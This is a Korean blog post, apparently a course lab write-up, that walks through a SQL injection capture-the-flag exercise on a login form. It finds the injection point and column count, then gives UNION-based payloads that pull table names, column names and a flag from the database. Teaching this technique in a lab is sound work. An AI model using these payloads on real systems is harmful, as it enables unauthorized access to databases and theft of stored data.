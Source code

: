 ```yaml
---
layout: single
title:  "7 주차 SQL injection 데이터 추출 문제 풀이(3)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false

---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 7 주차 SQL injection 데이터 추출 문제 풀이(3)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>



## <span style="background:#696969; color:#ffffff">1.1   SQL injection</span>

<br>

<img src="/images/2024-06-05-SQLinjection20/image-20240605052236837.png" alt="image-20240605052236837" style="zoom: 67%;" />



<img src="/images/2024-06-05-SQLinjection20/image-20240605052309872.png" alt="image-20240605052309872" style="zoom:67%;" />

normatitc 아이디로 로그인이 되는 지 확인하였다.  
그리고 user name 에 대한 정보가 추출된다.(DB정보)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.1 sql injection 포인트 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection20/image-20240605052418035.png" alt="image-20240605052418035" style="zoom:67%;" />

▶ 해당 로그인 폼에 sql 구문이 적용되는 지 확인하였다.

<img src="/images/2024-06-05-SQLinjection20/image-20240605052546843.png" alt="image-20240605052546843" style="zoom:67%;" />

▶ 식별 /인증 이 동시인가, 분리인가 확인하기 위해 작성했다.   
or 이 로그인이 안되는 것으로 보아 분리일 확률이 높다.

<img src="/images/2024-06-05-SQLinjection20/image-20240605052653941.png" alt="image-20240605052653941" style="zoom:67%;" />

▶ 확실히 하기 위해 비밀 번호가 sql 구문이 적용되는 지 살펴보았다. 로그인이 되지 않으므로   
분리가 확실해 졌다.  왜냐하면 동시라면 둘 다 sql 구문이 적용되어야 하기 때문이다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.2 column 개수 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection20/image-20240605052732705.png" alt="image-20240605052732705" style="zoom:67%;" />

order by 1부터 순차적으로 작성해 본 결과, order by 3 이후로는 로그인이 되지 않는다.   
따라서 칼럼 개수는 2 개라는 사실을 알 수 있다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.3 출력되는 column 위치 찾기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection20/image-20240605052926457.png" alt="image-20240605052926457" style="zoom:67%;" />

<img src="/images/2024-06-05-SQLinjection20/image-20240605052944301.png" alt="image-20240605052944301" style="zoom:67%;" />

로그인을 시도 해본 결과, 로그인이 되지 않는다. 

<img src="/images/2024-06-05-SQLinjection20/image-20240605053007133.png" alt="image-20240605053007133" style="zoom:67%;" />

그렇다는 것은 비밀 번호 값이 다른 것으로 저장 되어 있어서 일치하지 않는다는 사실을 알 수 있다.  
따라서 비밀 번호는 해쉬 처리 해야 한다. 둘 중 어떤 것이 비밀 번호 칼럼 인지 아직 모르므로, 하나 씩 적용해 본다.   
위의 이미지처럼 앞의 칼럼이 비밀 번호이고, 뒤의 칼럼이 아이디 칼럼이다.

그러므로 데이터를 추출 하기 위해서는 아이디 칼럼에 데이터를 추출해야 로그인해서 데이터를 확인할 수 있다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.4 DB이름 확인하기</span>

------



<img src="/images/2024-06-05-SQLinjection20/image-20240605053152557.png" alt="image-20240605053152557" style="zoom: 67%;" />

<img src="/images/2024-06-05-SQLinjection20/image-20240605053207386.png" alt="image-20240605053207386" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.5 table이름 확인하기</span>

------

<br>



<img src="/images/2024-06-05-SQLinjection20/image-20240605054134342.png" alt="image-20240605054134342" style="zoom:67%;" />

' union select md5(1),(select table_name from information_schema.tables where table_schema = 'sqli_2' limit 0,1) #

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.6 column 이름 확인하기</span>

------

<br>

<img src="/images/2024-06-05-SQLinjection20/image-20240605054308291.png" alt="image-20240605054308291" style="zoom:67%;" />

' union select md5(1),(select column_name from information_schema.columns where table_name = 'flag_table' limit 0,1) #

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.7 data 추출하기</span>

------



<img src="/images/2024-06-05-SQLinjection20/image-20240605054413278.png" alt="image-20240605054413278" style="zoom:67%;" />

' union select md5(1),(select flag from flag_table limit 0,1) #
